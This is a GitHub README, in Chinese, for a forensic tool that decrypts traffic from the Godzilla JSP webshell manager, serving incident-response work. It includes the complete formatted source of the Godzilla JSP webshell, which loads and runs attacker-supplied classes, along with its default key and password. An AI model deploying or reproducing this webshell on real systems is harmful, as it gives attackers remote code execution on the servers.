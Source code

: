 # kingkong

解密哥斯拉Godzilla-V2.96 webshell管理工具流量

**目前只支持jsp类型的webshell流量解密**

# Usage

1. 获取攻击者上传到服务器的webshell样本
![01解码unicode.png](./docs/01解码unicode.png)
2. 获取wireshark之类的流量包，一般甲方有科来之类的全流量镜像设备，联系运维人员获取，这里以`test.papng`为例。
![02wireshark包.png](./docs/02wireshark包.png)
3. 导出所有http对象，放置到文件夹
![03导出对象.png](./docs/03导出对象.png)
![04导出对象.png](./docs/04导出对象.png)
4. 编辑`kingkong.py`脚本，找到`#config`这行，配置获取到的样本password、key，以及刚才的文件夹路径
![](./docs/05配置.png)
5. py -2 kingkong.py
![](./docs/06解密流量.png)

# Config

```
#config
#配置webshell的key
key = '3c6e0b8a9c15224a'
#配置webshell的password
password = 'pass'
#配置wireshark导出http对象的路径
filepath = '.'
#配置是否为jsp+base64，设置False则对JAVA_AES_RAW流量解密，设置True则对JAVA_AES_BASE64流量解密
isbase64 = False
```

# Analysis

1. 对生成的webshell格式化

```java
<%!
String xc="3c6e0b8a9c15224a"; //md5("key")[0:16]
String pass="pass"; //get参数
String md5=md5(pass+xc); //响应分隔符
class X extends ClassLoader
    {
        public X(ClassLoader z)
        {
            super(z);
        }
        public Class Q(byte[] cb)
        {
            return super.defineClass(cb, 0, cb.length);
        }
    }


    //aes解密
    public byte[] x(byte[] s,boolean m)
    {
        try{
            javax.crypto.Cipher c=javax.crypto.Cipher.getInstance("AES");
            c.init(m?1:2,new javax.crypto.spec.SecretKeySpec(xc.getBytes(),"AES"));
            return c.doFinal(s);
            }catch (Exception e)
            {
                return null;
            }
    }
    //md5 16位大写
    public static String md5(String s) {
        String ret = null;
        try {
            java.security.MessageDigest m;
            m = java.security.MessageDigest.getInstance("MD5");
            m.update(s.getBytes(), 0, s.length());
            ret = new java.math.BigInteger(1, m.digest()).toString(16).toUpperCase();
            } catch (Exception e) {}
            return ret;
    }


    //base64编码
    public static String base64Encode(byte[] bs) throws Exception
    {
        Class base64;
        String value = null;
        try {
            base64=Class.forName("java.util.Base64");
            Object Encoder = base64.getMethod("getEncoder", null).invoke(base64, null);
            value = (String)Encoder.getClass().getMethod("encodeToString", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e) {try { base64=Class.forName("sun.misc.BASE64Encoder");
            Object Encoder = base64.newInstance();
            value = (String)Encoder.getClass().getMethod("encode", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e2) {}}return value;
    }


    //base64解码
    public static byte[] base64Decode(String bs) throws Exception
    {
        Class base64;
            byte[] value = null;
        try {
                base64=Class.forName("java.util.Base64");
                Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);
                value = (byte[])decoder.getClass().getMethod("decode", new Class[] { String.class }).invoke(decoder, new Object[] { bs });
            }
        catch (Exception e)
            {
            try {
                    base64=Class.forName("sun.misc.BASE64Decoder");
                    Object decoder = base64.newInstance();
                    value = (byte[])decoder.getClass().getMethod("decodeBuffer", new Class[] { String.class }).invoke(decoder, new Object[] { bs });
                }
            catch (Exception e2)
                {


                }
            }
            return value;
    }
%>
<%
try{
        byte[] data=base64Decode(request.getParameter(pass));
        data=x(data, false);
        if (session.getAttribute("payload")==null)
        {
            session.setAttribute("payload",new X(pageContext.getClass().getClassLoader()).Q(data));
        }else
        {
                    request.setAttribute("parameters", new String(data));
                    Object f=((Class)session.getAttribute("payload")).newInstance();
                    f.equals(pageContext);
                    response.getWriter().write(md5.substring(0,16));
                    response.getWriter().write(base64Encode(x(base64Decode(f.toString()), true)));
                    response.getWriter().write(md5.substring(16));
        }
    }catch (Exception e)
        {


        }
%>
```

2. 可以看到主要有base64编码解码、aes解密、md5 hash功能
其中重点关注密钥参数：
```
String xc="3c6e0b8a9c15224a";
```

3. 该参数由生成webshell中的“密钥”参数定义，具体值为：
```
md5(xc)[0:16]
```
4. webshell客户端接收到服务端下发的指令后，进行base64解码，aes解密处理完成后，生成响应报文，其中报文结构为：
```
md5(pass+xc)[0:16]+base64编码的木马执行结果+md5(pass+xc)[16]
```